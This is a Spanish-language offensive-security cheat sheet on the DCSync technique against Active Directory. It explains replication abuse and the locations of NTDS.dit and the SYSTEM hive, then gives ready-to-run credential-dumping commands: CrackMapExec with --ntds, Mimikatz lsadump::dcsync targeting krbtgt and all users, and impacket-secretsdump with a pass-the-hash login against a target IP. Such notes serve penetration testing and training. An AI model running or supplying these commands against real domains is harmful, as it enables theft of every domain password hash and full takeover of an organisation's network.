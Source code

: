 # DCSync

Tags: #AD #DCSync 

DCSync es una técnica de post-explotación en entornos Windows, específicamente en redes que operan con Active Directory (AD). Este método permite a un atacante con privilegios elevados imitar las funciones de un Controlador de Dominio (DC) para obtener información sensible de otros DCs. Entre los datos comprometidos se incluyen hashes de contraseñas de usuarios, claves de cifrado de Kerberos y otros elementos protegidos que normalmente solo están disponibles para los Controladores de Dominio.

```bash 
# Cómo funciona DCSync
1. Privilegios Necesarios: Para ejecutar un ataque DCSync, el atacante necesita tener privilegios de nivel alto en el dominio, típicamente como un usuario con el rol de "Domain Admin" o similar.
2. Mimikatz y DCSync: Una de las herramientas más populares que implementa este ataque es Mimikatz. Mimikatz tiene un módulo llamado 'lsadump' que puede utilizarse para realizar un ataque DCSync.
3. Replicación de Directorio: El ataque se basa en la funcionalidad legítima de replicación de directorio entre Controladores de Dominio. El protocolo de replicación de AD, MS-DRSR (Microsoft Directory Replication Service (DRS) Remote Protocol), permite a un DC obtener actualizaciones de datos de otro DC. Un atacante puede utilizar este protocolo para simular una solicitud de replicación.
4. Solicitud de Datos de Cuentas: Un atacante puede solicitar los datos de ciertas cuentas específicas, o incluso de todas las cuentas en el dominio, lo que incluye los hashes de las contraseñas de NTLM y los tickets de Kerberos (TGTs).
5. Extracción de Información Sensible: El ataque permite que el atacante extraiga información que puede ser utilizada para aumentar su nivel de acceso o para comprometer aún más la red, realizando ataques de movimiento lateral o elevación de privilegios.
```

```powershell 
## Extracción de Credenciales del Dominio de Active Directory

Cuando se realiza una tarea tan crítica como la extracción de credenciales de un dominio de Active Directory, es fundamental comprender la importancia y la sensibilidad de los archivos involucrados. El archivo NTDS.dit es esencialmente el corazón de AD, ya que contiene todas las cuentas de usuario, contraseñas hash y otros datos críticos del dominio. Por lo tanto, es un objetivo primordial en las actividades de post-explotación y debe ser manejado con extrema precaución y bajo estrictas medidas de seguridad.

El archivo de sistema, comúnmente conocido como el hive SYSTEM, contiene configuraciones clave del sistema y es necesario para descifrar los hashes de contraseñas almacenados en NTDS.dit.

Normalmente, puedes encontrar el archivo ntds.dit en dos ubicaciones:

❯ systemroot\NTDS\ntds.dit
❯ systemroot\System32\ntds.dit
    
Y la ruta del SYSTEM en:

❯ C:\Windows\System32\SYSTEM

Es común que estos archivos sean el objetivo principal de herramientas de extracción de credenciales, como el ataque DCSync que emula el comportamiento de un controlador de dominio solicitando información de usuario de otros controladores de dominio sin necesidad de ejecutar código en el controlador de dominio objetivo.
```

## Utilizando CrackMapExec

```powershell 
❯ ./cme smb 3.14.245.175 -u "admin" -p "Password@1" -d "domain1.corp" --ntds
```

## Utilizando Mimikatz

```powershell
❯ .\mimikatz.exe # lsadump::dcsync /domain:domain1.corp /user:krbtgt
```

## Para exfiltrar todos los usuarios del dominio:

```powershell
❯ mimikatz # lsadump::dcsync /domain:domain1.corp /all /csv
```

## Utilizando Impacket-secretsdump

```powershell
❯ impacket-secretsdump -debug -dc-ip 3.14.245.175 admin@domain1.corp -hashes :64fbae31cc352fc26af97cbdef151e03
```